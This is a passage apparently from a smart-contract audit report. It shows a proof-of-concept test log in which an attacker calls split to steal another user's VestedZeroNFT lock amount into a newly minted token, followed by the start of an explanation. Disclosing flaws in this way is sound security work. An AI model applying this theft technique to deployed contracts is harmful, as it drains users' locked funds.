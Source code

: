 ```
  false,
  0n
]
Execute the attack to steal the amount of pending of the VestedZeroNFT to mint a new tokenID for the attacker
Attacker address:  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Call split to theft the tokenID of Ant
LastTokenId:  2n
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  1000000000000000000n,
  0n,
  0n,
  1000n,
  1710064957n,
  false,
  0n
]
The owner address of the lastTokenId:  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Get tokenIdToLockDetails of the lastTokenId
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  9999000000000000000000n,
  0n,
  0n,
  1000n,
  1710064958n,
  false,
  0n
]
    ✔ Direct theft of ZeroVestedNFT (283ms)

```

Test Log explanation: 

So Pre-condition: Ant has 1 VestedZeroNFT with id = 2 
The tokenIdToLockDetails information for this tokenID 
```
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  10000000000000000000000n,
  0n,
  0n,
  1000n,
  1710064957n,
  false,
  0n
]
```
